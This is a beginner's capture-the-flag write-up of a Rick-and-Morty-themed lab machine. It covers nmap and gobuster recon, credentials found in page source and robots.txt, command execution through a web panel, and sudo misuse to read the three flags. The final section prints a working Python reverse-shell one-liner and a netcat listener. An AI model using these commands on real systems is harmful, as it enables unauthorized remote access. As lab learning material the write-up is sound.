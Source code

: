 #CTF
The room gives us a machine and asks for 3 ingredients.

## Recon - Nmap

We start with reconnaissance. The industry standart is [[Nmap]] and that is what I am using.
`nmap [ip]`  is enought for now, and the results are:

```
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:9F:02:3B:D4:F7 (Unknown)
```

So we know that ports 22 and 80 are open, 80 is a site and later we can login to 22 if we have username and password. The site has a picture with Rick and Morty and below says:
Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!

## Enumeration - Gobuster

I want to find out about the subdirectories of the site so I use [[Gobuster]].
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://[ip]/`
I use a common wordlist because this is a beginner CTF so I should be covered, and these are the results: 

```
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
```

So I see that hta,htpasswd,htaccess and server-status are forbiden so I can't visit them.
Index is where I am now, so I am left with assets and robots.txt.
I am trying robots.txt first and this is what I find: 
<font color=red> Wubbalubbadubdub </font>
Not clear, but can be used later.

Next I am going to assets, and I am presented with a dictionary.

Index of /assets
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	bootstrap.min.css	2019-02-10 16:37 	119K	 
[ ]	bootstrap.min.js	2019-02-10 16:37 	37K	 
[IMG]	fail.gif	2019-02-10 16:37 	49K	 
[ ]	jquery.min.js	2019-02-10 16:37 	85K	 
[IMG]	picklerick.gif	2019-02-10 16:37 	222K	 
[IMG]	portal.jpg	2019-02-10 16:37 	50K	 
[IMG]	rickandmorty.jpeg	2019-02-10 16:37 	488K	 
Apache/2.4.18 (Ubuntu) Server at 10.10.189.94 Port 80

Not anything too useful, so I will move on for now.

## OSINT - Code of Site

Next I will seach the code of the site for anything usefull.
`view-source:http://[ip]/` and we have the code.

The site is pretty small so I don't have much to look at, but there is an interesting comment:

```
 <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
```

it is pretty clear that  <font color=red> Username: R1ckRul3s </font>

## Attack

So I have <font color=red> Username: R1ckRul3s </font> and <font color=red> Wubbalubbadubdub </font> that can be used as a password.
I try to login via ssh `ssh R1ckRul3s@[ip]` , but I am greeted with:
`R1ckRul3s@[ip]: Permission denied (publickey).`

I get back to /assets and I am looking a the content. A little lost here so I do some googling. 
The hand of God offers: 
/portal.php 
And I am greeted with a username - password login page. I use the same creads as before, and I am in!

## Looking into the machine

On the top there are some tabs :

    Commands
    Potions
    Creatures
    Potions
    Beth Clone Notes


Command has a search bar and an execure button below.
The rest redirect me to a denied.php page and I can't see the content.
Going back to the Command page I try some basic commands like ls, ls -la , pwd , ifconfig , uname -a

```
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
```
/var/www/html
Linux ip-10-10-189-94 4.4.0-1072-aws #82-Ubuntu SMP Fri Nov 2 15:00:21 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Pretty useful stuff. I see a Sup3rS3cretPickl3Ingred.txt , so I will try to open it. I try cat but:
**Command disabled to make it hard for future PICKLEEEE RICCCKKKK.**

I am searching online for other methods to print a file. 
I found

```
### nl
### Less
### Head
### Tail
```

nl works so I have my first ingredient :  <font color=green> mr. meeseek hair </font>
I see a clue.txt file and I display it.

`Look around the file system for the other ingredient.`

I look around and I find
` ../../../home/rick/second ingredients`
I try to display it but I can't.

A very useful command is `grep -R ""` to display everything on the system

I need to see If I can use `sudo` so I run `sudo -l` and I get:

```
Matching Defaults entries for www-data on ip-10-10-189-94.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-189-94.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

So I can use sudo!

After some searching online I found that to ignore spaces I can type \ to escape it.
So again with the same command:
`nl ../../../home/rick/second\ ingredients`
And it worked! So I have the second flag <font color=green> jerry tear </font>


For the third one I will have to seach the rest of the folders with
`sudo ls ../../../*` which displays everthing on the system.

There is an interesting 3rd.txt file.
I nl it with sudo and I get the third ingredient <font color=green> fleeb juice </font>


And we are done!

## Conclusion

One of my first CTFs and gave me a lot to think about. I used the basic tools for the job and had to look around to find my stuff. All in all a very good introduction.

## Another way in!

After searching online for writeups I found that we can use a reverse shell, and that way we can bypass the denied commands and pages. 
The way to do that is to open a listener on the local machine with [[Introductory Networking#Netcat]] 
`nc -lnvp 1234`

Then type an one liner for a reverse shell on the commands tab: 

```
python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[local ip]",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

```

And we are in and we can do whatever we want!